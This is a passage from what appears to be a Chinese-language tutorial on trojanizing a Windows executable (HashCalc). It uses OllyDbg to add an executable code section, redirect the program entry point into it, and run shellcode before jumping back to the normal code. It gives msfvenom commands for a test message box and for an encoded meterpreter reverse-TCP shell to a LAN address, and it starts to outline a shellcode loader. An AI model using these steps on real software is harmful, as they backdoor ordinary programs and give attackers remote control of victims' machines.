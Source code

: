 可以正常运行

2. 劫持程序执行流程

首先在[Ollydbg](https://down.52pojie.cn/Tools/Debuggers/%E5%90%BE%E7%88%B1%E7%A0%B4%E8%A7%A3%E4%B8%93%E7%94%A8%E7%89%88Ollydbg.rar)中转到内存部分（alt+M），可以看到我们新加的.ame，并且有RWE权限

![image-20220407160456405](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220407160456405.png)

接下来我们要将程序的执行流劫持到我们新添加的.ame段中，使最终执行程序时进入放有shellcode的.ame部分

首先复制前3个操作码（之后回复执行流程时需要）

![image-20220407164119652](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220407164119652.png)

我们复制.ame的起始地址00482000，并把程序入口处的`push ebp`改为`jmp 00482000`并保存为新的exe

![image-20220407165720185](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220407165720185.png)

再次运行时就已经不会展示正常的页面了

3. 填充msf🐎

这里用messagebox做填充

```shell
msfvenom -p windows/messagebox text="it's demo" -f hex
```

在`jmp 00482000`处enter跟随跳转，把payload复制到null的部分，保存为新的exe

![image-20220407170518230](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220407170518230.png)

成功运行

4. 回复程序的正常执行流程

首先将shellcode最后一句跳转改为nop，使用`popfd`和`popod`回复堆栈操作，然后将原程序起始位置的汇编码复制到这里，最后跳转回原来的执行地址

![image-20220407180451897](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220407180451897.png)

就可以在弹messagebox之后继续HashCalc原程序了

同理，我们可以插入msf🐎

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 4 -b '\x00' lhost=192.168.31.29 lport=4788 -f hex
```

注意此处选用`x86/shikata_ga_nai`的encoder之后前面就不能用x64了，默认生成的都是x86的payload，并且要注意`-i`参数的指定，要与前面扩充的新段大小相匹配

## shellcode加载器

>

根据前面对🐎结构的分析，我们知道单一的shellcode是无法执行的，需要配套的shellcode loader来接收后续的stager，编写的思路都是大差不差的，以动态加载内存为例：

1. 接收4字节缓冲区大小
2. 开辟内存
3. 将socket中的值复制到缓冲区中去
4. 读取字节到缓冲区
5. 执行syscall
6. 退出
